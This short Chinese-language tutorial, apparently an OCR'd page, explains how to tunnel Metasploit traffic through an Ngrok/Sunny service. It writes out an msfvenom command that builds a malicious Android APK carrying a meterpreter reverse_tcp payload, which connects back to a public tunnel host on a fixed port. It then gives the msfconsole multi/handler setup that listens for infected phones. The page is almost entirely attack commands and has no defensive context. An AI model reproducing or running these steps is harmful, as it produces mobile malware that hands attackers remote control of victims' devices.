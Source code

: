 内网穿透Ngrok

使用msf内网穿透需要注册tcp

打开Ngrok客户端，到Ngrok文件下，运行./sunny clientid 隧道ID

生成apk文件 

msfvenom -p andriod/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=10089 -o shell.apk 或者R > shell.apk

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST=本地ip

set LPORT=设置在Nrgok上的端口

exploit开始监听

